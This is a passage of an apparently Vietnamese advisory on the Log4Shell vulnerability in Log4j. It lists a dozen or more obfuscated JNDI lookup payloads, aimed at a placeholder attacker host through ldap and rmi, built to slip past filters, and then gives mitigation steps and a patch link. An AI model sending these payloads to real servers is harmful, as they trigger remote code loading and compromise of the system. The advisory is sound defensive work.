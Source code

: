 j${EnV:K5:-nD}i:

${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}attacker_controled_website/payload_to_be_executed}

j${loWer:Nd}i${uPper::}

${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://attacker_controled_website/payload_to_be_executed }

${jndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker_controled_website/payload_to_be_executed}

${${env:TEST:-j}ndi${env:TEST:-:}${env:TEST:-l}dap${env:TEST:-:}attacker_controled_website/payload_to_be_executed}

${jndi:${lower:l}${lower:d}ap://attacker_controled_website/payload_to_be_executed}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://attacker_controled_website/payload_to_be_executed}

${${::-j}ndi:

${${::-j}nd${::-i}:

${en${lower:v}:ENV_NAME:-j}

${lower:${upper:${lower:${upper:${lower:${upper:${lower:${upper:${lower:${upper:${lower:${upper:${lower:j}}}}}}}}}}}}}
</code></pre> |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

\


\


local-log4j-vuln-scanner-bin.zip

\
Khuyến nghị quản trị viên cần làm những công việc sau để giảm thiểu rủi ro với server:&#x20;

1. Đối với log4j2 >=2.10 , cấu hình system property "**log4j2.formatMsgNoLookups**" thành "true" hoặc\
   set biến môi trường **LOG4J\_FORMAT\_MSG\_NO\_LOOKUPS** thành true\
   \

2. Đối với log4j2 từ  2.0-beta9 đến 2.10.0&#x20;
   1. Xoá **JndiLookup** class trong classpath\
      (ví dụ: zip -q -d log4j-core-\*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class)\
      \

3. Cập nhật bản vá  [https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)\
   \

